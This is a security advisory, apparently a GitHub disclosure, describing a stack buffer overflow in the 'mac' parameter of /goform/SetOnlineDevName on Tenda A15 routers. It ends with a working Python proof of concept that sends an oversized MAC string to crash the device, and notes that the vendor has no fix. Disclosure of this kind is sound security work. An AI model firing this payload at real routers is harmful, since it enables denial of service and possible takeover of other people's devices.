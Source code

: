 # Tenda A15 V15.13.07.13 was discovered to contain a stack overflow vulnerability in the "mac" parameter at /goform/SetOnlineDevName.

## Vulnerability Description

Vendor: Tenda

Product: A15

Version: US_A15V1.0RTL_V15.13.07.13_multi_TD01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3187.html

## Vulnerability Details

In formSetDeviceName function, get the mac parameter via websGetVar and pass it to the second parameter of set_device_name

![1703731950136](image/SetOnlineDevName.mac.zh-cn/1703731950136.png)

In the set_device_name function, the dev_mac variable is only verified for existence and is used in the sprintf function without any length checks, which could lead to an attacker using this buffer overflow to perform a DOS attack and an RCE attack.

![1703731977335](image/SetOnlineDevName.mac.zh-cn/1703731977335.png)

## POC

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/SetOnlineDevName'
payload = {
    "mac": '9c:fc:e8:da:9c:5b'*0x500,
    "devName": 'devname1'
}
res = requests.post(url=url, data=payload)
print(res.content)
```

## Trigger details

See video content
[![](https://res.cloudinary.com/marcomontalbano/image/upload/v1704443635/video_to_markdown/images/youtube--Z7tQwSZWb2g-c05b58ac6eb4c4700831b2b3070cd403.jpg)](https://youtu.be/Z7tQwSZWb2g "")

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/us/product/a15.html

## Acknowledgment

The vulnerability belongs to Chenjun Ma from Wuhan University.
